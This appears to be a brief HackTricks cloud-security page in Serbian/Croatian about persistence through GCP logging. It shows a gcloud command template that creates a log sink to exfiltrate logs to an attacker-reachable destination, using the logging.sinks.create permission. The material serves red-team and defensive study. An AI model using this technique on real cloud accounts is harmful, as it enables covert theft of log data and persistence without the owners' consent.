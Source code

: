 # GCP - Logging Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Logging

Pronađite više informacija o Logging-u u:

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

Kreirajte sink za eksfiltraciju logova na odredište dostupno napadaču:
```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```
{{#include ../../../banners/hacktricks-training.md}}
